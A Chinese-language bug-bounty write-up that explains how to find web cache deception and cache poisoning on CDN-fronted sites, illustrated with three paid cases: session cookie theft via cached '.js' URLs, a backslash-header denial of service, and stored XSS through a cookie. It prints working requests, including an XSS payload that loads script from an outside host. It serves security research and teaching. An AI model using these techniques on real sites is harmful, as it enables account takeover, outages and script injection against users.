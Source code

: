 

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

[TOC]

## 前言
 本文以真实的案例来讲解如何发现cache相关的漏洞.
 
## 方法
>如果应用程序没有登录功能，但使用了Akamai CDN的服务，步骤如下:

发送第一个请求到Burp suite的`Repeater`:

![img_1.png](img_1.png)

检查服务器是否缓存正常的请求(你可以通过响应头`“server - timing: cdn-cache;desc=HIT”`来判断)

![img_2.png](img_2.png)

在请求中添加非法请求头 (注意:host下面一行的` \ `)

![img_3.png](img_3.png)

如果成功缓存了响应，那么当您在任何浏览器上打开URL时，应该会得到一个400 Bad Request,如下图所示:

![img_4.png](img_4.png)

>如果应用程序有登录功能:
 
- 创建一个帐户
- 检查一下在任何页面中是否有任何敏感信息被公开(例如会话或者令牌)

![img_5.png](img_5.png)

- 发送请求到`Repeater`
- 在URL的末尾添加一个能缓存的扩展名(`.js,.css`)，看看它是否给出了一个200 OK的响应 (注意看接口的末尾,多了`.js`,可以与第一张图进行对比)

![img_6.png](img_6.png)


使用经过验证的帐户打开修改后的URL

![img_7.png](img_7.png)

使用curl或Private Web Browser窗口打开相同的URL:

![img_8.png](img_8.png)

如果成功缓存了令牌，应该在响应中看到令牌

![img_9.png](img_9.png)


>如果应用程序使用Cloudflare CDN

非法请求头是行不通的，现在大多数Cloudflare客户都在使用缓存欺骗保护 (https://developers.cloudflare.com/cache/about/cache-deception-armor/)


我使用`.avif`文件能够绕过这个保护，这是一个真正未知的扩展名文件。

具体参考: `https://hackerone.com/reports/1391635`


也有一些网站没有使用这个保护，你可以尽情地测试缓存中毒/欺骗;



## 案例1.由缓存欺骗至账户接管→赏金:1500美元

### 思路
所有的cookie(甚至httponly)都在` https://host.com/app/conversation/1.js `中公开

如果一个经过身份验证的用户访问这个URL，他们所有的cookie都将存储在缓存中

然后攻击者就可以提取cookie并劫持他们的Session


>提示和技巧

在某些应用程序中，如果你在扩展之前添加一个分号(;)，可能会给你一个200 Ok的响应

比如:  `/xxxx/xxxxxx/;.js`

响应为:

```
HTTP/2 200 Ok

```


## 案例2:由缓存中毒提升至DoS→赏金:1000美元

### 思路

在Akamai CDN中，如果我们发送一个反斜杠`\ `作为报头，服务器将响应一个400坏请求响应

请求:

```
GET /products/xxx/xxxx/xxx/?test HTTP/2
Host: www.host.com
\: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
```

响应:

```
HTTP/2 400 Bad Request
Content-Type: text/html;charset=iso-8859-1
Content-Length: 70
Cache-Control: max-age=297
Expires: Thu, 21 Jul 2022 16:17:54 GMT
Date: Thu, 21 Jul 2022 16:12:57 GMT
Server-Timing: cdn-cache; desc=HIT
Server-Timing: edge; dur=32
Server-Timing: origin; dur=147
Strict-Transport-Security: max-age=86400
Ak-Uuid: 0.bc85d817.1658419977.1592c61

```
当站点使用缓存服务器时，这就会成为一个问题。网站通常只缓存javascript, css和其他文件，但当网站如`www.host.com`也缓存正常的响应，如

```
www.host.com/products/*

www.host.com/*

```
它会成为一个非常有影响力的bug。

- 提示和技巧


对于这个漏洞，Akamai有一个解决方案，通过让400响应在缓存中只持续5秒，然而，攻击者可以在burp中使用intruder模块发送null有效负载，这样相同的400响应就永远被缓存了


![img_10.png](img_10.png)


## 案例3:由缓存中毒到储存型XSS→赏金:1000美元

### 思路

有一个通过n_vis Cookie参数的XSS

由于服务器缓存了此响应，攻击者可以保存XSS有效负载

有一个强大的过滤器(和WAF)，可以阻止大多数有效负载，但由于该网站使用Jquery，攻击者可以使用`$.getScript`函数 。

请求:

```
GET /xxxx/xx-xx.otf?triagethiss HTTP/2
Host: www.host.com
Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-xss,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers

```


响应:

```js

<script>
...
Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
....
</script>


```

>提示和技巧

测试XSS上的任意请求头，`cookie`，自定义头，`x-forward-*`头

